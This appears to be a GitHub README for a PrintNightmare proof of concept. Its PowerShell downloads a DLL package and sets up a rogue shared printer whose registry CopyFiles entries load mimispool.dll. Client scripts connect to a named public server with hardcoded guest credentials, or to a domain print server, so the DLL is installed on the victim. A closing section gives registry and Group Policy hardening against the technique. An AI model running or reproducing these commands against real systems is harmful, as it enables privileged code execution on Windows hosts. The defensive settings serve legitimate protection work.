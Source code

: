 ## PowerShell commands

### Server

#### install
```
$printerName     = 'Kiwi Legit Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName

Invoke-WebRequest -Uri 'https://github.com/gentilkiwi/memadog/releases/latest/download/memadog_trunk.zip' -OutFile '.\memadog_trunk.zip'
Expand-Archive -Path '.\memadog_trunk.zip' -DestinationPath '.\memadog_trunk'

Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\memadog_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\memadog_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')

Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared

New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null

New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null

```

#### uninstall
```
$printerName     = 'Kiwi Legit Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'

Remove-Printer       -Name $printerName
Start-Sleep -Seconds 2
Remove-PrinterDriver -Name 'Generic / Text Only'

Remove-Item -Force -Path ($drivers  + '\x64\3\mimispool.dll')
Remove-Item -Force -Path ($drivers  + '\W32X86\3\mimispool.dll')
Remove-Item -Force -Path ($system32 + '\mimispool.dll')

```

### Client

#### Any computer with explicit credential to `printnightmare.gentilkiwi.com`
```
$serverName  = 'printnightmare.gentilkiwi.com'
$username    = 'gentilguest'
$password    = 'password'
$printerName = 'Kiwi Legit Printer'

$fullprinterName = '\\' + $serverName + '\' + $printerName
$credential = (New-Object System.Management.Automation.PSCredential($username, (ConvertTo-SecureString -AsPlainText -String $password -Force)))

Remove-PSDrive -Force -Name 'KiwiLegitPrintServer' -ErrorAction SilentlyContinue
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue

New-PSDrive -Name 'KiwiLegitPrintServer' -Root ('\\' + $serverName + '\print$') -PSProvider FileSystem -Credential $credential | Out-Null
Add-Printer -ConnectionName $fullprinterName

$driver = (Get-Printer -Name $fullprinterName).DriverName
Remove-Printer -Name $fullprinterName
Remove-PrinterDriver -Name $driver
Remove-PSDrive -Force -Name 'KiwiLegitPrintServer'
# mimispool still in spool\drivers

```

#### Computer in domain (single sign on with current user to print server)
```
$serverName  = 'print.lab.local'
$printerName = 'Kiwi Legit Printer'

$fullprinterName = '\\' + $serverName + '\' + $printerName

Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName

$driver = (Get-Printer -Name $fullprinterName).DriverName
Remove-Printer -Name $fullprinterName
Remove-PrinterDriver -Name $driver
# mimispool still in spool\drivers

```

## Protect
_to adapt to your environment_

**Please, do not set `RestrictDriverInstallationToAdministrators` to `0` without these settings**

### Registry

#### `.reg` file
```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint]
"PackagePointAndPrintOnly"=dword:00000001
"PackagePointAndPrintServerList"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers]
"1"="/your really legit servers or invalid entry !/"
```

#### commands
```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintServerList /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers" /f /v 1 /t REG_SZ /d "/your really legit servers or invalid entry !/"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintOnly /t REG_DWORD /d 1
```

### Registry with real printer servers and allowing non-administrators to install package P&P drivers & printers

#### `.reg` file
```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint]
"PackagePointAndPrintOnly"=dword:00000001
"PackagePointAndPrintServerList"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers]
"srv1.fqdn"="srv1.fqdn"
"srv2.fqdn"="srv2.fqdn"

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint]
"RestrictDriverInstallationToAdministrators"=dword:00000000
```

#### commands
```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintServerList /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers" /f /v "srv1.fqdn" /t REG_SZ /d "srv1.fqdn"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint\ListofServers" /f /v "srv2.fqdn" /t REG_SZ /d "srv2.fqdn"
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PackagePointAndPrint" /f /v PackagePointAndPrintOnly /t REG_DWORD /d 1

reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint" /f /v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 0
```

### GPO / Local

In `Computer Configuration`, `Administrative Templates`, `Printers`, enable:
- `Only use Package Point and Print`
- `Package Point and Print - Approved servers`

![image](https://user-images.githubusercontent.com/2307945/129240741-b2a0ba14-6858-4c3f-ad07-07fa55efca29.png)

### GPO with real printer servers and allowing non-administrators to install package P&P drivers & printers

Same configuration as previously - _with real printer server names this time_ - but do not forget to add registry key `RestrictDriverInstallationToAdministrators` to `0`

![image](https://user-images.githubusercontent.com/2307945/133833820-a66b3ffd-a3aa-43a2-a1bf-14581a2a7492.png)
